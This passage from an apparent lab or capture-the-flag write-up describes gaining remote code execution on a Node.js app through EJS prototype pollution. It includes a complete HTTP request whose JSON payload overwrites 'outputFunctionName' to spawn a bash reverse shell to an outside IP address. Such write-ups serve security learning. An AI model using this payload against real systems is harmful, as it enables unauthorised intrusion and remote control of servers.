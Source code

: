 I tried interacting with the application and injecting some other JSON data:

<figure><img src="../../../.gitbook/assets/image (1540).png" alt=""><figcaption></figcaption></figure>

The RCE exploit lies in overwriting `outputFunctionName`. When researching for how to exploit this, I came across this article:

{% embed url="https://eslam.io/posts/ejs-server-side-template-injection-rce/" %}

We can then exploit it using basic Prototype Pollution:

```http
POST /change_status HTTP/1.1
Host: 192.168.183.184:8000
User-Agent:googlebot
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic VW5kZWFkRGluZ29HcnVtYmxpbmczNjk6U2hvcnR5U2tpbmxlc3NUcnVzdGVlNDU2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 165



{"shields":{"__proto__":{
"outputFunctionName":"x;process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/192.168.45.208/80 0>&1\"');x"
}}}
```

It didn't work at first, and upon sending a GET request to `/reset`, it worked!

<figure><img src="../../../.gitbook/assets/image (2902).png" alt=""><figcaption></figcaption></figure>
